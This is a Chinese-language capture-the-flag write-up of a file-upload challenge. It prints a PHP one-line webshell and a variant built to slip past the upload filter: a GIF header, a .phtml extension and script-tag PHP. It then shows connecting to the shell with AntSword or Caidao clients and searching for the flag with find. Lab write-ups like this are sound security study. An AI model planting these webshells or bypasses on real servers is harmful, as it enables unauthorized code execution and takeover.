 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-24
---
```


## 思路

1. 上传最基本的一句话木马，

​	test.php   `<?php @eval($_POST('test'))?>`

查看返回结果显示Not image，说明后端对文件后缀名有检查。

<img src="../images/image-20201224154534162.png" alt="image-20201224154534162" style="zoom: 50%;" />

将该后缀改为jpg，又会显示文件内容检查出<?。说明后端对文件内容有检查，不能php脚本，同时有可能后端会检查图片文件头，所以在构造的木马最前面加上GIF。

<img src="../images/image-20201224153758063.png" alt="image-20201224153758063" style="zoom: 80%;" />

经测试后，将上传文件改为test.phtml  ，即可上传成功。

 `GIF  <script language="php">eval($_POST['a']);</script>`

![image-20201224154147597](../images/image-20201224154147597.png)

2. 此时文件已经成功上传到服务器，然后就需要找文件上传到哪个目录，一般是upload目录，经测试本题也是。所以就可以利用蚁剑/菜刀连接上传的test.phtml。

   <img src="../images/image-20201224154831469.png" alt="image-20201224154831469" style="zoom: 80%;" />

3. 连接上服务器之后，即可在根目录下找到flag文件 。

<img src="../images/image-20201224154954542.png" alt="image-20201224154954542" style="zoom:50%;" />![image-20201224155715085](../images/image-20201224155715085.png)

<img src="../images/image-20201224155715085.png" alt="image-20201224155715085" style="zoom: 80%;" />

​	有比较多的题目都是直接在根目录下就可以找到flag，但适用性更广的方法即是在蚁剑中打开终端，利用**find命令**搜索flag文件，`find / -name flag`，然后利用cat获得flag内容。

## 总结

- 本题在后端禁止的上传文件特征主要为：
  - 后缀名为php（黑名单）
  - 文件内容含有<?
  - 文件没有图片文件的特征（文件头）

- 因此相应的绕过方法为：
  - 使用其他可以在php中执行的文件后缀（phtml）
  - 脚本采用`<script language="php">eval($_POST['a']);</script>`
  - 文件头加上GIF

